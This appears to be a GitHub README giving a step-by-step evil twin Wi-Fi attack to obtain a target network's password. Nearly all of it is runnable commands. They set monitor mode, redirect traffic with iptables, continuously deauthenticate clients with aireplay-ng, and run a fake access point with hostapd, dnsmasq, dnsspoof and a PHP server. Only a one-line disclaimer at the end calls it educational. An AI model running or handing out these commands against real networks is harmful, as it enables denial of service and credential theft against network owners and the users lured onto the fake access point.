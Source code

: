 
# Evil Twin Attack Guide

This guide explains how to conduct an evil twin attack to obtain the password for a target network.

![](eviltwin.jpg)

*Note: you need a network card capable of packet injection for this attack*

git clone the repo and follow the steps below.

## Step 1: Install required software 

```bash
# Update package lists and install required software 

sudo apt-get update 
sudo apt-get install hostapd dnsmasq apache2 php-cli

```


## Step 2: Configure the network interface

```bash

# Put the wireless interface into monitor mode 
sudo airmon-ng start wlan0 

# Check the monitor mode interface name 
iwconfig

# Bring up the wireless interface and assign an IP address
# CHANGE THE INTERFACE NAME ACCORDINGLY

ifconfig wlan0 up 192.168.1.1 netmask 255.255.255.0

# Add a route to the target network
route add -net 192.168.1.0 netmask 255.255.255.0 gw 192.168.1.1

# Execute this command to enable IP Forwarding:
echo 1 > /proc/sys/net/ipv4/ip_forward


# Configure NAT to allow traffic to pass through the interface
iptables --table nat --append POSTROUTING --out-interface eth0 -j MASQUERADE
iptables --append FORWARD --in-interface wlan0 -j ACCEPT

# Redirect traffic to port 80 to the fake AP
iptables -t nat -A PREROUTING -i wlan0 -p tcp --dport 80 -j DNAT --to-destination 192.168.1.1

# Save the rules
sudo service iptables save

``` 


## Step 3: Find the target network


```bash
# Use airodump-ng to find the target network 

airodump-ng wlan0
```

## Step 4: Deauthenticate clients from the target network

```bash
#Use aireplay-ng to deauthenticate clients from the target network 

sudo aireplay-ng --deauth 0 -a <mac-address-of-target-AP> wlan0

```

## Step 5: Start the attack

*Note: the .conf file are provided in the repo. Make sure you change the interface name and the ssid in these files*

Each of the following commands is to be run on a separate terminal

```bash
# Start the hostapd service with a configuration file 

hostapd hostapd.conf  

# Start the dnsmasq service with a configuration file 

dnsmasq -C dnsmasq.conf -d  

# Start the dnsspoof service on the wireless interface 

dnsspoof -i wlan0mon  

# Start a PHP server on all interfaces listening on port 80 

cd webserver

php -S 0.0.0.0:80

```

Note: This guide is for educational purposes only and should not be used for malicious purposes. It is important to always obtain proper authorization before conducting any security testing.
